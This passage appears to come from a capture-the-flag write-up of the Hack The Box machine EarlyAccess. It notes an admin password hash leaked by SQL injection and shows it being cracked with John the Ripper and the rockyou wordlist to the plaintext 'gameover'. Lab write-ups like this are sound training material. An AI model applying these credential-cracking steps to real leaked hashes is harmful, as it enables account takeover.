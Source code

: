 ![UNION leak pw](/assets/htb/EarlyAccess/http/sqli-union-users.png)

We have successfully extracted the admins password and can use john or hashcat to crack it.

```bash
root@void:~# cat hash.txt 
618292e936625aca8df61d5fff5c06837c49e491
```

### Cracking the admin hash

#### John

Let us now crack the hash using john.

```bash
root@void:~# john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
gameover         (?)
1g 0:00:00:00 DONE (2022-02-03 10:43) 100.0g/s 658400p/s 658400c/s 658400C/s hyacinth..foolish
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

